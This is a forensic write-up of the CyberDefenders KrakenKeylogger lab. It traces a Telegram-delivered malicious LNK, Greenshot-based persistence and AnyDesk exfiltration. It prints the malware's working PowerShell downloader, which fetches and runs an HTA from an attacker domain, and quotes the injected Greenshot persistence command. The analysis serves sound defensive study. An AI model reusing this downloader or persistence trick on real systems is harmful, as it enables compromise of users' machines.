

# KrakenKeylogger Lab

# Table of Contents
- [Context](#context)
- [Scenario](#scenario)
- [Questions](#questions)
  * [Windows Toast Notifications](#windows-toast-notifications)
- [Attack Chain](#attack-chain)
  * [Attack Tree](#attack-tree)

# Context

Lab link: [https://cyberdefenders.org/blueteam-ctf-challenges/krakenkeylogger/](https://cyberdefenders.org/blueteam-ctf-challenges/krakenkeylogger/)

Suggested tools: DB Browser for SQLite, LECmd, Timeline Explorer

Tactics: Initial Access, Execution, Persistence, Privilege Escalation, Defense Evasion, Command and Control, Exfiltration

# Scenario

An employee at a large company was assigned a task with a two-day deadline. Realizing that he could not complete the task in that timeframe, he sought help from someone else. After one day, he received a notification from that person who informed him that he had managed to finish the assignment and sent it to the employee as a test. However, the person also sent a message to the employee stating that if he wanted the completed assignment, he would have to pay $160.

The helper's demand for payment revealed that he was a threat actor. The company's digital forensics team was called in to investigate and identify the attacker, determine the extent of the attack, and assess potential data breaches. The team must analyze the employee's computer and communication logs to prevent similar attacks in the future.

# Questions

Q1- What is the the web messaging app the employee used to talk to the attacker?

Answer: Telegram

Reason: Analysis of the `wpndatabase.db` file, associated with the Windows Notification Platform (WNP), revealed a toast notification generated by the Chrome browser at `2023-07-11T16:57:15Z`. The notification originated from `web.telegram.org` and contained a message from a sender identified as "Nawaf," referencing an attachment named `our project templet test.zip`, protected with the password `@1122d`. This notification record indicates that the endpoint received contact through Telegram's web client at `web.telegram.org`, and that the notification preserved both the sender's message and the reference to a password-protected payload delivered through that channel. Delivery of a password-protected archive is a common technique used to evade automated content inspection and email or web-based scanning, since the recipient must manually supply the password to extract the file.

```xml
<toast launch="0|0|Default|0|https://web.telegram.org/|p#https://web.telegram.org/#" displayTimestamp="2023-07-11T16:57:15Z">
 <visual>
  <binding template="ToastGeneric">
   <text>Nawaf</text>
   <text>📎 our project templet test.zip,pass:@1122d</text>
   <text placement="attribution">web.telegram.org</text>
  </binding>
 </visual>
</toast>
```



## Windows Toast Notifications

The `wpndatabase.db`, the SQLite database backing the Windows Notification Platform (WNP), caches the rendered content of toast notifications rather than just metadata about them. When an application pushes a toast with sender identity, message preview text, or attachment references embedded in the toast body, that content persists locally in the `Notification` table regardless of whether the source application maintains its own accessible local history. This makes the artifact particularly valuable against browser-driven clients such as `web.telegram.org`, where no local chat database exists to parse in the way it would for a native desktop application; the toast notification becomes one of the only local traces of message content and delivery timing.

The artifact's evidentiary value is bounded by its shallowness: each row typically preserves a single preview line, a display timestamp, and the originating source URI or application identifier, not full conversation context, sender verification, or infrastructure attribution. It functions best as corroborating evidence of contact and timing alongside other artifacts (browser history, prefetch, or network logs), rather than as a standalone indicator.

```sql
# Location
./Users/OMEN/AppData/Local/Microsoft/Windows/Notifications/wpndatabase.db

SELECT Id, HandlerId, Type, Payload, ArrivalTime
FROM Notification
ORDER BY ArrivalTime DESC;
```

Q2- What is the password for the protected ZIP file sent by the attacker to the employee?

Answer: `@1122d`

Reason: The same toast notification recovered from `wpndatabase.db`, timestamped `2023-07-11T16:57:15Z`, also disclosed the archive password directly within the message body from "Nawaf." The attacker included the password `@1122d` inline alongside the filename `our project templet test.zip` rather than delivering it through a separate channel, a low-effort social engineering approach that relies on the "test" framing of the deliverable to lower the victim's guard. This detail reinforces the `T1566.002` (Phishing: Spearphishing via Service) classification, since a single message carried both delivery and access credentials for the payload.

Q3- What domain did the attacker use to download the second stage of the malware?

Answer: `masherofmasters[.]cyou`

Reason: Analysis of the LNK file `templet.lnk`, recovered from `Users\OMEN\Downloads\project templet test\` and matching the archive delivered via Telegram, revealed a `CommandLineArguments` field invoking `powershell.exe` with `-ExecutionPolicy Unrestricted` alongside a heavily obfuscated script. The script contained a custom string-manipulation function designed to reconstruct a URL from a scrambled character string. Evaluating only the deobfuscation logic, not the full script, against the embedded value `aht1.sen/hi/coucys.erstmaofershma//s:tpht` resolved to `hxxps://masherofmasters[.]cyou/chin/se1.hta`, confirming the attacker's second-stage payload was staged on the domain `masherofmasters[.]cyou`.

```bash
$ pwd
./Users/OMEN/Downloads/project templet test

$ lnkinfo templet.lnk                                      
lnkinfo 20240423

Windows Shortcut information:
        Contains a link target identifier
        Contains a relative path string
        Contains a command line arguments string
        Contains an icon location string
        Contains an icon location block
        Number of data blocks           : 4

Link information:
        Creation time                   : Not set (0)
        Modification time               : Not set (0)
        Access time                     : Not set (0)
        File size                       : 0 bytes
        Icon index                      : 67
        Show Window value               : 0x00000007
        Hot Key value                   : 0
        File attribute flags            : 0x00000000
```

```powershell
$ProgressPreference = 0;
function nvRClWiAJT($OnUPXhNfGyEh) {
	$OnUPXhNfGyEh[$OnUPXhNfGyEh.Length..0] -join ('')
};
function sDjLksFILdkrdR($OnUPXhNfGyEh) {
	$vecsWHuXBHu = nvRClWiAJT $OnUPXhNfGyEh;
	for ($TJuYrHOorcZu = 0; $TJuYrHOorcZu -lt $vecsWHuXBHu.Length; $TJuYrHOorcZu += 2) {
		try {
			$zRavFAQNJqOVxb += nvRClWiAJT $vecsWHuXBHu.Substring($TJuYrHOorcZu, 2)
  }
		catch {
			$zRavFAQNJqOVxb += $vecsWHuXBHu.Substring($TJuYrHOorcZu, 1)
  }
 };
	$zRavFAQNJqOVxb
};
$NpzibtULgyi = sDjLksFILdkrdR 'aht1.sen/hi/coucys.erstmaofershma//s:tpht'; # hxxps://masherofmasters.cyou/chin/se1.hta
$cDkdhkGBtl = $env:APPDATA + '\\' + ($NpzibtULgyi -split '/')[-1]; # \\se1.hta
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;
$wbpiCTsGYi = wget $NpzibtULgyi -UseBasicParsing;
[IO.File]::WriteAllText($cDkdhkGBtl, $wbpiCTsGYi);
& $cDkdhkGBtl;
sleep 3;
rm $cDkdhkGBtl;
```

Q4- What is the name of the command that the attacker injected using one of the installed LOLAPPS on the machine to achieve persistence?

Answer: `jlhgfjhdflghjhuhuh`

Reason: Examination of Greenshot's configuration file, `Greenshot.ini`, located at `AppData\Roaming\Greenshot\Greenshot.ini`, revealed an attacker-added External Command destination entry: `Argument.jlhgfjhdflghjhuhuh=/c "C:\Users\OMEN\AppData\Local\Temp\templet.lnk"`. This entry abuses Greenshot's legitimate custom external-command feature, normally used to pipe captured screenshots to a user-defined tool, to instead launch the malicious `templet.lnk` file through `cmd.exe /c` whenever the injected command, named `jlhgfjhdflghjhuhuh`, is triggered.

```powershell
$ grep -R -i "templet.lnk" .
grep: ./Downloads/project templet test.zip: binary file matches
grep: ./AppData/Roaming/Microsoft/Windows/Recent/CustomDestinations/ad6877ce07372d25.customDestinations-ms: binary file matches
./AppData/Roaming/Greenshot/Greenshot.ini:Argument.jlhgfjhdflghjhuhuh=/c "C:\Users\OMEN\AppData\Local\Temp\templet.lnk"
```

Q5- What is the complete path of the malicious file that the attacker used to achieve persistence?

Answer: `C:\Users\OMEN\AppData\Local\Temp\templet.lnk`

Reason: Building on the Greenshot ExternalCommand plugin abuse identified previously, the `Argument.jlhgfjhdflghjhuhuh` entry in `Greenshot.ini` specifies the exact file executed via `cmd.exe /c` when that destination is invoked. This reveals the full path of the persistence payload as `C:\Users\OMEN\AppData\Local\Temp\templet.lnk`, the same malicious LNK file originally delivered inside the password-protected Telegram archive, and responsible for the multi-stage PowerShell download chain that retrieved `se1.hta` from `masherofmasters[.]cyou`.

```powershell
; Greenshot ExternalCommand Plugin configuration
[ExternalCommand]
; The commands that are available.
Commands=MS Paint,jlhgfjhdflghjhuhuh
; Redirect the standard error of all external commands, used to output as warning to the greenshot.log.
RedirectStandardError=True
; Redirect the standard output of all external commands, used for different other functions (more below).
RedirectStandardOutput=True
; Depends on 'RedirectStandardOutput': Show standard output of all external commands to the Greenshot log, this can be usefull for debugging.
ShowStandardOutputInLog=False
; Depends on 'RedirectStandardOutput': Parse the output and take the first found URI, if a URI is found than clicking on the notify bubble goes there.
ParseForUri=True
; Depends on 'RedirectStandardOutput': Place the standard output on the clipboard.
OutputToClipboard=False
; Depends on 'RedirectStandardOutput' & 'ParseForUri': If an URI is found in the standard input, place it on the clipboard. (This overwrites the output from OutputToClipboard setting.)
UriToClipboard=True
; The commandline for the output command.
Commandline.MS Paint=C:\Windows\System32\mspaint.exe
Commandline.jlhgfjhdflghjhuhuh=C:\Windows\system32\cmd.exe
; The arguments for the output command.
Argument.MS Paint="{0}"
Argument.jlhgfjhdflghjhuhuh=/c "C:\Users\OMEN\AppData\Local\Temp\templet.lnk"
; Should the command be started in the background.
RunInbackground.MS Paint=True
; If a build in command was deleted manually, it should not be recreated.
DeletedBuildInCommands=
```

Q6- What is the name of the application the attacker utilized for data exfiltration?

Answer: `Anydesk`

Reason: Enumeration of `AppData\Roaming` on the `OMEN` host revealed an `AnyDesk` directory alongside expected legitimate application folders (Adobe, Greenshot, Microsoft), indicating `AnyDesk` — a legitimate remote desktop/remote access tool — was installed and used by the attacker as a dual-use utility, leveraging its file-transfer capability to exfiltrate data from the compromised system while blending in as ordinary remote-access software rather than attacker-authored malware.

```powershell
[~/…/Users/OMEN/AppData/Roaming]
$ ls                 
Adobe  AnyDesk  Greenshot  Microsoft
```

Q7- What is the IP address of the attacker?

Answer: `77.232.122.31`

Reason: Analysis of the AnyDesk trace log (`ad.trace`) located at `Users\OMEN\AppData\Roaming\AnyDesk\`, filtered for authenticated remote-access sessions, revealed multiple successful login events beginning at `2023-07-12 08:56:16 UTC` and recurring through `2023-07-12 09:08:44 UTC`, all originating from the same source address across a shared relay (`872f8937`), identifying the attacker's IP address as `77.232.122[.]31`.

# Attack Chain

| Time (UTC) | Stage | Detail | MITRE |
| --- | --- | --- | --- |
| 2023-07-11 16:57:15 | Initial Access | Attacker "Nawaf" sends password-protected `our project templet test.zip` (pass `@1122d`) to employee via Telegram web (`web.telegram.org`), logged in `wpndatabase.db` | T1566.002, T1204.002 |
| 2023-07-11 (post-extract) | Execution | Employee extracts and runs `templet.lnk` (`Users\OMEN\Downloads\project templet test\templet.lnk`), invoking `powershell.exe -ExecutionPolicy UnRestricted` with obfuscated string-manipulation payload | T1059.001, T1204.002, T1027 |
| 2023-07-11 | Command and Control | Deobfuscated PowerShell resolves attacker domain `masherofmasters[.]cyou`, downloads `se1.hta` via `Invoke-WebRequest` (wget) over TLS 1.2, writes to `%APPDATA%\se1.hta` | T1105, T1071.001 |
| 2023-07-11 | Defense Evasion | Script sleeps 3 seconds then deletes dropped LNK copy referenced by `$cDkdhkGBtl` (`%APPDATA%\se1.hta`), an anti-forensics self-cleanup step | T1070.004 |
| 2023-07-11/12 | Persistence | Attacker adds malicious External Command entry `jlhgfjhdflghjhuhuh` to `Greenshot.ini` (`AppData\Roaming\Greenshot\Greenshot.ini`), executing `cmd.exe /c "C:\Users\OMEN\AppData\Local\Temp\templet.lnk"` via abused legitimate LOLApp | T1547, T1053, T1218 |
| 2023-07-12 08:56:16 | Command and Control | First authenticated AnyDesk remote-access session from attacker IP `77.232.122.31`:4026 via relay `872f8937` | T1219 |
| 2023-07-12 08:56:16 – 09:08:44 | Exfiltration | Multiple AnyDesk sessions from `77.232.122.31` used for data exfiltration under cover of legitimate remote-access software | T1567, T1219 |

## Attack Tree

```powershell
[Telegram phishing message from "Nawaf"]  ← attacker (77.232.122[.]31) → victim (OMEN)
    └── delivers our project templet test.zip (pass: @1122d)   ← wpndatabase.db, 2023-07-11T16:57:15Z
        └── employee extracts and runs templet.lnk
            ├── [Stage 1 — Execution]
            │   └── powershell.exe -ExecutionPolicy UnRestricted
            │       └── deobfuscation function resolves scrambled string
            │           └── hxxps://masherofmasters[.]cyou/chin/se1.hta  ← C2 domain
            ├── [Stage 2 — Command and Control / Staging]
            │   └── Invoke-WebRequest (wget) downloads se1.hta
            │       └── [IO.File]::WriteAllText writes payload to %APPDATA%\se1.hta
            │           └── mshta.exe executes se1.hta (HTA/VBScript-JScript host)
            ├── [Stage 3 — Defense Evasion]
            │   └── sleep 3; rm $cDkdhkGBtl  ← self-deletes dropped se1.hta
            ├── [Stage 4 — Persistence]
            │   └── Greenshot.ini modified (LOLAPP abuse)
            │       └── ExternalCommand "jlhgfjhdflghjhuhuh"
            │           └── cmd.exe /c "C:\Users\OMEN\AppData\Local\Temp\templet.lnk"  ← re-executes LNK
            └── [Stage 5 — Exfiltration]
                └── AnyDesk installed (AppData\Roaming\AnyDesk)
                    └── remote sessions from 77.232.122[.]31 via relay 872f8937  ← 2023-07-12 08:56:16Z – 09:08:44Z
                        └── data exfiltrated over legitimate remote-access channel
```
